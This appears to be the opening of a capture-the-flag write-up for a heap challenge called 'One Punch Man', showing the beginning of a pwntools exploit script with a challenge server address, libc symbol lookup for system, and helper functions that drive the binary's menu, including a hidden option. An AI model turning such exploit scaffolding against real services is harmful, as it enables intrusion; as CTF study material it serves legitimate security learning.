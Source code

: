 ### One Punch Man
```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '52.198.120.1'
port = 48763

binary = "./one_punch"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def name(index, name):
  r.recvuntil("> ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(str(index))
  r.recvuntil(": ")
  r.send(name)
  pass

def rename(index,name):
  r.recvuntil("> ")
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline(str(index))
  r.recvuntil(": ")
  r.send(name)

  pass

def d(index):
  r.recvuntil("> ")
  r.sendline("4")
  r.recvuntil(": ")
  r.sendline(str(index))
  pass

def show(index):
  r.recvuntil("> ")
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline(str(index))

def magic(data):
  r.recvuntil("> ")
  r.sendline(str(0xc388))
  time.sleep(0.1)
  r.send(data)

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

```